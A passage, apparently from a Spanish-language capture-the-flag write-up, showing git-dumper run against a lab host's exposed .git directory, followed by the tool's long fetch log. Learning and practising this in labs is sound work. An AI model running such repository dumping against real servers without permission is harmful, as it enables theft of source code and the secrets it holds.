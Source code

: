 ```bash
┌─[root@kali]─[/home/user/aws/git-dumper]
└──╼ pip3 install -r requirements.txt
```

Nos clonamos el repositorio git en nuestro directorio ```/aws```.

```bash
┌─[root@kali]─[/home/user/aws/git-dumper]
└──╼ python3 git_dumper.py http://10.10.11.134/ ../
Warning: Destination '../' is not empty
[-] Testing http://10.10.11.134/.git/HEAD [200]
[-] Testing http://10.10.11.134/.git/ [403]
[-] Fetching common files
[-] Fetching http://10.10.11.134/.git/COMMIT_EDITMSG [200]
[-] Fetching http://10.10.11.134/.gitignore [404]
[-] http://10.10.11.134/.gitignore responded with status code 404
[-] Fetching http://10.10.11.134/.git/description [200]
[-] Fetching http://10.10.11.134/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/commit-msg.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/post-commit.sample [404]
[-] http://10.10.11.134/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://10.10.11.134/.git/hooks/pre-receive.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/update.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/post-receive.sample [404]
[-] http://10.10.11.134/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://10.10.11.134/.git/hooks/post-update.sample [200]
[-] Fetching http://10.10.11.134/.git/objects/info/packs [404]
[-] http://10.10.11.134/.git/objects/info/packs responded with status code 404
[-] Fetching http://10.10.11.134/.git/info/exclude [200]
[-] Fetching http://10.10.11.134/.git/hooks/pre-commit.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://10.10.11.134/.git/hooks/pre-push.sample [200]
[-] Fetching http://10.10.11.134/.git/index [200]
[-] Finding refs/
[-] Fetching http://10.10.11.134/.git/HEAD [200]
[-] Fetching http://10.10.11.134/.git/info/refs [404]
[-] http://10.10.11.134/.git/info/refs responded with status code 404
[-] Fetching http://10.10.11.134/.git/config [200]
[-] Fetching http://10.10.11.134/.git/logs/refs/heads/master [200]
[-] Fetching http://10.10.11.134/.git/logs/HEAD [200]
[-] Fetching http://10.10.11.134/.git/ORIG_HEAD [200]
[-] Fetching http://10.10.11.134/.git/FETCH_HEAD [404]
[-] http://10.10.11.134/.git/FETCH_HEAD responded with status code 404
[-] Fetching http://10.10.11.134/.git/logs/refs/remotes/origin/master [404]
[-] http://10.10.11.134/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching http://10.10.11.134/.git/packed-refs [404]
[-] http://10.10.11.134/.git/packed-refs responded with status code 404
[-] Fetching http://10.10.11.134/.git/refs/heads/master [200]
[-] Fetching http://10.10.11.134/.git/refs/remotes/origin/HEAD [404]
[-] http://10.10.11.134/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://10.10.11.134/.git/refs/wip/wtree/refs/heads/master [404]
[-] Fetching http://10.10.11.134/.git/refs/remotes/origin/master [404]
[-] http://10.10.11.134/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching http://10.10.11.134/.git/refs/wip/index/refs/heads/master [404]
[-] http://10.10.11.134/.git/refs/remotes/origin/master responded with status code 404
[-] http://10.10.11.134/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Fetching http://10.10.11.134/.git/refs/stash [404]
[-] http://10.10.11.134/.git/refs/stash responded with status code 404
[-] Fetching http://10.10.11.134/.git/logs/refs/remotes/origin/HEAD [404]
[-] http://10.10.11.134/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://10.10.11.134/.git/logs/refs/stash [404]
[-] http://10.10.11.134/.git/logs/refs/stash responded with status code 404
```